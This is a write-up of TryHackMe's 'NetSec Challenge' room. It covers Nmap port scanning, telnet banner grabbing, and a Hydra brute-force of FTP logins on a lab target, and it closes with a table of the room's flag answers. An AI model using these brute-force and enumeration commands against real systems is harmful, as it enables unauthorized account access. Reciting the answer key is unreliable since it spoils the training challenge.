







# NetSec Challenge — TryHackMe Writeup

## What this room is about

This one's from TryHackMe's Network Security module, and it's basically a "use your tools" check-in: no fancy exploit chain, just a target box you're supposed to poke at with **Nmap**, **Telnet**, and **Hydra**, and answer a bunch of questions along the way. The kind of room where the real skill being tested isn't finding some 0-day, it's *reading banners properly* and *not skipping steps*.

You get a target IP, and the goal is to fully enumerate it — find every open port, grab service banners by hand instead of just trusting `-sV`, and eventually brute-force your way into an FTP server using two usernames you "socially engineered" out of the scenario. Fun little room, good refresher on the basics.

## Step 1 — Full port scan

First thing, obviously, full range scan. No point guessing ports on a CTF box.

```
nmap -p- 10.114.156.238
```

Not shown: 65528 closed tcp ports (reset)

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8081/tcp  open  blackice-icecap
10001/tcp open  scp-config
10121/tcp open  unknown
```



7 TCP ports open in total. Two things jump out right away: the highest port under 10,000 is **8081**, and there's something sitting way out at **10121**, past the usual 1000-port default range — good reminder why you always run a full scan and don't just trust the top-1000 list.

## Step 2 — Poking port 80 by hand (Telnet)

Instead of letting `nmap -sV` do the guessing for me, I wanted to grab the actual HTTP response myself. Telnet is perfect for this — raw socket, no interpretation, just what the server actually sends back.

```
telnet 10.114.156.238 80
```

I sent a bare request and got a 400 Bad Request back (expected, since I didn't send a proper HTTP request line), but the response headers were the whole point — the `Server:` header spits out the service version info directly.



That `Server:` header is where the port 80 "service version value" answer lives. No need for automated tools here, it's literally sitting in plaintext in the response.

## Step 3 — SSH banner grab (Telnet again)

Same idea, different port. SSH servers announce their version the second you connect, before any auth even happens — so telnet works just as well here as it did on port 80.

```
telnet 10.114.156.238 22
```



The banner comes back as `SSH-2.0-OpenSSH_8.2p1 ...` — and tucked right into that string is the flag for this step. Classic case of "the banner is the vulnerability" — it's not leaking a CVE, it's literally leaking a flag, but the lesson's the same: banner grabbing matters.

## Step 4 — Checking out the FTP server on the weird port

Remember that port 10121 from the full scan? Time to figure out what's actually running there.

```
nmap -p 10121 10.114.156.238 -sV
```

```
PORT      STATE SERVICE VERSION
10121/tcp open  ftp     vsftpd 3.0.5
Service Info: OS: Unix
```



So somebody moved FTP off the standard port 21 and stuck it way out at 10121 — running **vsftpd 3.0.5**. Not exactly hidden, just moved out of the default 1000-port range, which is why the earlier full scan mattered so much.

## Step 5 — Building the username list

The room gives you a "social engineering" angle: two usernames, `eddie` and `quinn`, supposedly picked up from recon on the target. So before throwing Hydra at anything, I just dropped them into a wordlist.

```
mkdir Documents/THM/NetSec
cd Documents/THM/NetSec
nano usernames.txt
```



Nothing fancy — just `eddie` and `quinn`, one per line, ready to feed into Hydra as the login list.

## Step 6 — Brute-forcing FTP with Hydra

With the port, the service, and the usernames in hand, it's Hydra time. I pointed it at the FTP service on port 10121, used my two-line username list, and threw rockyou.txt at the password side.

```
hydra -s 10121 -L usernames.txt -P /usr/share/wordlists/rockyou.txt 10.114.156.238 ftp
```

```
[10121][ftp] host: 10.114.156.238   login: eddie   password: ********
[10121][ftp] host: 10.114.156.238   login: quinn   password: ********
1 of 1 target successfully completed, 2 valid passwords found
```



Both accounts cracked. Turns out neither `eddie` nor `quinn` was using a particularly imaginative password — rockyou.txt did its usual job.

## Step 7 — Logging in and grabbing the flag

With working creds for `quinn`, I connected to the FTP server directly and had a look around.

```
ftp 10.114.156.238 10121
Name: quinn
Password: ***
230 Login successful.
```

Listed the directory, found `ftp_flag.txt` sitting right there, and pulled it down.

```
ftp> ls
-rw-rw-r--  1 1002  1002    22 ftp_flag.txt

ftp> get ftp_flag.txt
226 Transfer complete.
```



`cat`'d the file locally afterward and there's the flag — proof that account access via a leaked/weak password on a hidden FTP port was the whole point of the "social engineering" hint. It wasn't a technical trick, it was just: get usernames from somewhere, brute-force the password, walk in the front door.

## Wrapping up

Nothing here was individually hard — that's kind of the point of the room. It's a "did you actually run the basics correctly" check:

- **Full port scan**, not just top-1000 — otherwise 10121 stays invisible.
- **Manual banner grabbing with Telnet** instead of blindly trusting `nmap -sV` — twice, the answer was literally sitting in the raw response.
- **Hydra** doing what Hydra does best once you've got a decent username list and a fat password wordlist.

Answers recap:

| Question | Answer |
|---|---|
| Highest open port under 10,000 | `8081` |
| Open port above 10,100 | `10121` |
| Number of open TCP ports | `7` |
| Port 80 service version value | `THM{MySpecialServer007}` |
| Flag in the SSH banner | `THM{946219583339}` |
| FTP server version | `vsftpd 3.0.5` |
| Flag from the FTP account (accessible via FTP) | `THM{QUINN_IS_BACK007}` |

### Tools used
- **Nmap** — full port discovery and service/version scanning
- **Telnet** — manual banner grabbing on ports 80 and 22
- **Hydra** — brute-forcing FTP credentials with a custom username list + rockyou.txt
- **FTP client** — logging in and pulling down the flag file
